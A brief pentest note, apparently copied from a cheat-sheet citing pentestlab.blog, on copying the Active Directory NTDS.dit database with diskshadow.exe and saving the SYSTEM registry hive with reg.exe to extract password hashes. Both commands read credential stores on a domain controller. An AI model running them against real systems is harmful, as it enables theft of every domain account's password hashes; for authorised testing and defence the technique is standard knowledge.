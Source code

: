 # Use DiskShadow to copy NTDS.dit

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

diskshadow.exe /s c:\windows\temp\diskshadow.txt

To extract password hashes, you will also get an extract of SYSTEM from the registry:

reg.exe save hklm\system c:\windows\temp\reg.bak
